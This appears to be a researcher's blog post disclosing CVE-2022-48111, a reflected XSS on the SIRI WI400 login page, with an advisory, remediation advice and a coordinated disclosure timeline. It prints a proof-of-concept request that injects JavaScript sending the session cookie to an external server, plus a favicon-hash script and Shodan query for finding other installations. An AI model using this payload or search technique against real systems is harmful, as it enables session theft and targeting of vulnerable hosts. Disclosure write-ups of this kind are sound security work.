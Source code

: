 ```yaml
---
title: CVE-2022-48111
layout: post
post-image: /assets/images/wi400/0.wi400_cover.jpg
description: This post makes public a vulnerability I happened to discover during one of my activities as a Penetration Tester.
tags:
  - how to
  - cybersecurity
  - vulnerability
  - CVE-2022-48111
  - XSS
  - cookie exfiltration
---
```


# SIRI WI400: XSS on Login Page – CVE-2022-48111

WI400 is a software developed by SIRI that acts as a web interface for the IBM Power Systems (AS/400). During a penetration test activity, a reflected cross-site scripting (XSS) vulnerability was found on the login page. This allowed to craft URLs with arbitrary JavaScript code injected that would execute once the link was visited.

![SIRI WI400 Login Page](/assets/images/wi400/1.wi400_login_page.png)

## Advisory – CVE-2022-48111

A cross-site scripting (XSS) vulnerability in the check_login function of S.I.R.I. s.r.l WI400 between v.8 and v.11 included allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the “f” parameter.

## Technical Details

During a black-box penetration test activity carried out on the WI400 v9.5 emerged the possibility to reflect some parameters in the server response. By further investigating the matter, it was found out that the login page was vulnerable to reflected cross-site scripting attacks. Once confirmed, it was possible to exfiltrate the session cookie. In a likely scenario an attacker could, for example, steal it by means such as a phishing attack and log into the system impersonating the victim.

As a proof of concept, rather than popping up an alert printing the cookie, the JavaScript payload was crafted as a XMLHttpRequest that would send the token to our server.

The following is a POC snippet of the request with the payload used to verify and confirm the above mentioned vulnerability.

```
GET /WI400/index.php?t=CHECK_LOGIN&f=";const+req+%3d+new+XMLHttpRequest()%3breq.open("GET",+"https%3a//[REDACTED]/"%2bdocument.cookie)%3breq.send();var+tail="y
HTTP/1.1
Host: [REDACTED]
Cookie: PHPSESSID=o7p2j3i1a14sb1fp8e1s1hhuv7
[…]
```

In the server response it can be seen that the payload is returned without proper sanitization so the JavaScript code executes correctly once the URL is visited.

```javascript
HTTP/1.1 200 200
[…]

<!DOCTYPE html>
[…]
    var FOCUSED_FIELD = "";
    var FOCUSED_TAB ="";
    var REFRESH_FOCUS = false;
    var __WI400_HMAC = "";
    var __WI400_SESSION = "";
    var CURRENT_ACTION = "CHECK_LOGIN";
    var CURRENT_FORM = "";const req = new XMLHttpRequest();req.open("GET", "https://[REDACTED]/"+document.cookie);req.send();var tail="y";
[…]
```

In fact, as one can see in the picture below, the code executes on the target and the user session cookie is successfully exfiltrated to the “attacker” server.
![Session cookie exfiltrated to attacker server](/assets/images/wi400/2.wi400_stolen_cookie-redacted.png)

In order to exploit the vulnerability **no authentication is necessary**.

To understand if other versions of the software were subsceptible to the same kind of vulnerability, I needed to find other installations of the same.
To do so, I used what is, in my optinion, a pretty nifty trick. I calculated tha favicon hash with this python script:

```python
import mmh3
import requests
import codecs

response = requests.get('https://[REDACTED]/favicon.ico')
favicon = codecs.encode(response.content,"base64")
hash = mmh3.hash(favicon)
print(hash)
```

and then we looked it up on Shodan with the following query:
`http.favicon.hash:[REDACTED]`

A pretty cool tool that does the same thing but I didn't know at the time is [Fav-up](https://github.com/pielco11/fav-up).

After comparing the codebase in the new-found installations with the one we I was testing, I was able to confirm that multiple versions of the software were vulnerable to the same XSS. The vendor was promptly notified of the findings.

## Recommendations

If your version of the WI400 software is included between 8 and 11 you can choose one of the following:

- Enable the “safe mode” that can be activated on request by SIRI since v.8
- Update the software to the latest release

## Resolutions from SIRI

> We recommend all our customers to activate the “safe mode”. In future releases the parameter will be enabled by default and cannot be disabled. \
> Contact the [help desk](mailto:info@siri-informatica.it)for further information.

## Disclosure Timeline

- 14/12/2022 – Initial contact with SIRI
- 16/12/2022 – SIRI acknowledges the problem and decides to work with Yarix for a coordinated disclosure
- 02/02/2023 – MITRE assigned CVE-2022-48111 to the vulnerability
- 02/03/2023 – Full disclosure

## Resources & References

- [https://www.wi400.com/](https://www.wi400.com/)
- [CVE-2022-48111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-48111)
